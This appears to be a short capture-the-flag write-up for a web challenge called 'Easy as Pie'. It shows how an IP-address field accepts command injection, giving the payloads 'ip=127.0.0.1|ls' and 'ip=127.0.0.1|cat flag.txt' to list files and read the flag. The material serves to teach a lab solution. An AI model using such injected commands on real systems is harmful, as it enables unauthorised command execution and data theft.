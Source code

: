 ## Easy as Pie

Task: Once in a remote Norwegian town, a group of skilled security professionals had convened in a fancy cabin to collaborate and achieve their objectives. On their network, they found a number of challenges that required their collective expertise. Do you have what it takes to tackle these challenges too?

The challenge provides you this website:
![4524398e032e417aace67e5fddc9f3c1.png](../images/4524398e032e417aace67e5fddc9f3c1.png)

This is a classic example of remote code execution. 
I can just submit the payload `ip=127.0.0.1|ls`
![eacf9c44cf4749c7b537ae3bc8f2e12c.png](../images/eacf9c44cf4749c7b537ae3bc8f2e12c.png)

To obtain the flag:
`ip=127.0.0.1|cat flag.txt`
![47561a81b9564f3689ac9343798b2406.png](../images/47561a81b9564f3689ac9343798b2406.png)

I can also see it like this in the UI:
![899f52880ac840bd8f6ed9f5e81d38c2.png](../images/899f52880ac840bd8f6ed9f5e81d38c2.png)
